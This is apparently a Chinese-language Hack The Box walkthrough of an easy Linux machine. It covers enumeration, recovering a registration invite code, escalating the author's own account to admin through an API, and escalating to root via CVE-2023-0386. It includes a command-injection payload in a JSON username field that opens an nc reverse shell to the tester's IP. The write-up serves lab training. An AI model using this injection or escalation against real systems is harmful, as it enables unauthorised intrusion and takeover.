

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap Scan


开放端口：`22`、`80`

并且注意到80端口上有一个重定向，添加到`/etc/hosts`


## Register

注意到有/login路由，使用简单的密码组合登陆失败，猜测存在/register路由


但是需要先拿到邀请码

我在浏览器的network里面发现了一个独特的js文件


ChatGPT是这样分析的


控制台给出一段加密信息，加密方式是`ROT13`


需要发送一个POST包到指定的路径


将code进行Base64解密得到邀请码

注册完成后成功进入页面


## RCE

经过源代码的检查，发现存在`/api`的路径


```
{
    "v1": {
        "user": {
            "GET": {
                "/api/v1": "Route List",
                "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
                "/api/v1/invite/generate": "Generate invite code",
                "/api/v1/invite/verify": "Verify invite code",
                "/api/v1/user/auth": "Check if user is authenticated",
                "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
                "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
                "/api/v1/user/vpn/download": "Download OVPN file"
            },
            "POST": {
                "/api/v1/user/register": "Register a new user",
                "/api/v1/user/login": "Login with existing user"
            }
        },
        "admin": {
            "GET": {
                "/api/v1/admin/auth": "Check if user is admin"
            },
            "POST": {
                "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
            },
            "PUT": {
                "/api/v1/admin/settings/update": "Update user settings"
            }
        }
    }
}
```

尝试使用`/api/admin`，确实存在


访问`/api/v1/admin/vpn/generate`，有身份验证


在`/api/v1/admin/settings/update`路径中有不同的响应头，因为不允许用GET或者POST方式，于是尝试使用了PUT


其中返回的信息里会提示缺失的参数，补全即可，如图将我的账户设置为了admin


现在我们再来测试admin


尝试去获得admin的vpn


但是呢这里并没有办法进行连接


尝试在这里进行命令执行，发现成功


```
{
	"username":"hyh;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.29 100 >/tmp/f;"
}
```


拿到www-data的shell

上传`linpeas.sh`，发现3306的端口是开放的，可能存在数据库服务


并且发现了数据库的用户名和密码


ssh登录成功！获得user.txt


## Privilege Escalation

我在数据库中发现了其他两个用户的密码


不过都无法爆破成功

在`/var/mail`文件夹下发现了信息


```
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

意思是似乎这个系统存在某个Linux的内核CVE


### CVE-2023-0386

Github：[xkaneiki/CVE-2023-0386: CVE-2023-0386在ubuntu22.04上的提权 (github.com)](https://github.com/xkaneiki/CVE-2023-0386)

将其远程下载下来




拿到root.txt！


## Summary

这个注册好像是HTB平台之前的一个小彩蛋，需要用户自己在网站的js里找到邀请码才能注册

提权部分给的提示就比较直接了，可以直接在搜索引擎里找到对应的poc
